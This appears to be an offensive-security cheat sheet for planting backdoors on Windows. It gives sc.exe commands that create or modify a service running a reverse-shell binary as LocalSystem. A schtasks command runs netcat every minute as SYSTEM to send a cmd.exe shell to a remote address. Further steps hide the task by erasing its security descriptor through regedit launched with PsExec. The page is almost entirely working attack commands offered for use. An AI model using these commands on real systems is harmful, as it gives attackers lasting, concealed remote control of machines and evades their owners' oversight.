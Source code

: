 # Backdoor Services

Create a new service that loads a reverse shell.

Note: Spaces are neccessary after the `=`
```sh
sc.exe create MyServiceName binpath= "C:\shell.exe" start= auto
sc.exe start MyServiceName
```

Modify Service
```sh
sc.exe config MyServiceName binPath= "C:\shell.exe" start=auto obj= "LocalSystem"
```

Check Configuration
```sh
sc.exe  query state=all
sc.exe qc MyService
```

## Scheduled Tasks

Task Scheduler:
[MS Docs](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks)
`sc` - schedule type (hour, minute)
`mo` - Modifiers 24, 60, 365
`ru` - User account which the task runs under

```sh
schtasks /create /sc minute /mo 1 /tn MyBackdoor /tr "c:\tools\nc64 -e cmd.exe 10.10.10.10 4449" /ru SYSTEM
```

If a user isn't allowed to query a scheduled task it will not be visible. We can make our task invisible to everyone by removing the *Security Descriptor (SD)* 

System privileges are required to erase an SD. All task SD are located at: 
```sh
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\
```

Open up the registry editor:
```sh
C:\tools\pstools\PsExec64.exe -s -i regedit
```
